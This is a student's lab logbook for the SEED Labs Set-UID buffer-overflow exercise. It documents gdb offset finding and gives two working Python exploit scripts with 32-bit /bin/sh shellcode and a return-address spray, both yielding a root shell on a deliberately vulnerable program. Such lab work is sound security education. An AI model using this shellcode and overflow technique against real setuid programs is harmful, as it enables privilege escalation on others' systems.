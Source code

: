 # **Week #5**

## **SEEDs Lab**

https://seedsecuritylabs.org/Labs_20.04/Software/Buffer_Overflow_Setuid/

## Task 1 - Getting Familiar with Shellcode

### Invoking the Shellcode
 
 In this first task we shut off the address randomization so that the addresses of the variables can be the same in each execution of a program, changed shell linked to /bin/sh so that the shell executed allows for Set-UID program attacks and then we compiled and run the `./a32.out` and `./a64.out` programs and saw their output.

![screenshot1](screenshots/LOGBOOK5/screenshot1.png)

We can see that `./a32.out` output and `./a64.out` output are the same (invokes the shell).
<br>

## Task 2 - Understanding the Vulnerable Program

In this task we compiled the program inside the "code" directory using `make` that uses `-fno-stack-protector` and `-z execstack` to turn off the StackGuard and  non-executable stack protections. After that we checked the permissions of the resulting programs to confirm the success of the task.

![screenshot2](screenshots/LOGBOOK5/screenshot2.png)

Files created after executing command `make`

---

![screenshot3](screenshots/LOGBOOK5/screenshot3.png)

Permissions after the execution of `make`
<br>

## Task 3 - Launching Attack on 32-bit Program (Level 1)
### Investigation

In this part of the task we needed to know the distance between the buffer’s starting position and the place where the return-address is stored using a debugging method to find out.

* We first created an empty file called "badfile" using `touch badfile`.
* Then we executed `gdb stack-L1-dbg`.
* Then we set up a break point in the function bof().
* After that we started executing the program with `run`.
* At the breakpoint we used the `next` command to execute a few instructions and stop after de ebp register is modified.
* We got the ebp value using `p $ebp`.
* The buffer's address was discovered using `p &buffer`.  
* Lastly we used `quit` to exit 

 ![screenshot4](screenshots/LOGBOOK5/screenshot4.png) 
 ![screenshot5](screenshots/LOGBOOK5/screenshot5.png)  
 ![screenshot6](screenshots/LOGBOOK5/screenshot6.png)  

* We can see that `$ebp = 0xffffcb38`.
* The `buffer's` address is `0xffffcacc`.

### Launching Attacks
In this part of the task we were challenged to exploit the vulnerability in the target program using a skeleton program called `exploit.py`. This program was incompleted and we needed to change essential values for the code to work.

```phyton
#!/usr/bin/python3
import sys
shellcode= (
"" # ✩ Need to change ✩
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))
##################################################################
# Put the shellcode somewhere in the payload
start = 0 # ✩ Need to change ✩
content[start:start + len(shellcode)] = shellcode
# Decide the return address value
# and put it somewhere in the payload
ret = 0x00 # ✩ Need to change ✩
offset = 0 # ✩ Need to change ✩
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
##################################################################
# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

After looking at the exploit we can see that we need to change the `shellcode`, `start`, `ret` and `offset`.

* For the `shellcode` we used the shellcode for 32 bit shell, because we were using SEED Labs 32bit version.
* For the `start` we changed it to `490` which is 517 (the space for the str string) minus the space of the shellcode which is 27 because each `\x__` occupies 1.
* For the `ret` address we used `0xffffcb38 + start` (which is the ebp address) plus start to it.
* The `offset` is kinda like a middle term in between ebp and the buffer's address so we did $ebp minus buffer's address (`0xffffcb38 - 0xffffcacc = 0x6C`) and it is `108` in decimal, but we wanted the next position so we added 4 making it `offset = 112`.

```phyton
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 490             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb38 + start      # Change this number 
offset = 112             # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

After the changes were made we executed the `exploit.py` and then the `stack-L1` file.

![screenshot7](screenshots/LOGBOOK5/screenshot7.png)

After the execution of the file we got the root shell as the output.

## Task 4 -  Launching Attack without Knowing Buffer Size (Level 2)

In this task we are asked to do the same attack done in the last task but we are not allowed to derive the buffer size from our investigation so we cannot use that information in the attack. We need to get the vulnerable program to run our shellcode under this constraint.  

So in this task we don't know the ebp value, for that we will execute every initial command of the task 3 but we can't use the command `"p $ebp"` as shown in the last screenshot.

![screenshot8](screenshots/LOGBOOK5/screenshot8.png)
![screenshot9](screenshots/LOGBOOK5/screenshot9.png)
![screenshot10](screenshots/LOGBOOK5/screenshot10.png)
![screenshot11](screenshots/LOGBOOK5/screenshot11.png)

In `exploit.py` file we will do some changes to make this exploit work in this task.

* For the `shellcode` we used the shellcode for 32 bit shell, because we were using SEED Labs 32bit version.
* We put the `shellcode` at the end of badfile.
* For the `ret` address we used `0xffffcacc + 400` because we know that the buffer size is about 100-200 bytes long so we need to jump higher than 200.
* In the last task we had 1 return address but this time we don´t know exactly how long our buffer is so we have to put the return address in many places so at least one of those addresses is actual a return address for that we create a `for` loop and we "spray" the entire buffer with a return address.

```phyton
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
# start = 0             # Change this number 
content[517 - len(shellcode):] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcacc + 500      # Change this number 
# offset = 0             # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

# Loop to "spray" the buffer with return address
for offset in range(50):
   content[offset*L:offset*4 + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

After the changes were made we executed the `exploit.py` and then the `stack-L1` file.

![screenshot12](screenshots/LOGBOOK5/screenshot12.png)

After the execution of the file we got the root shell as the output.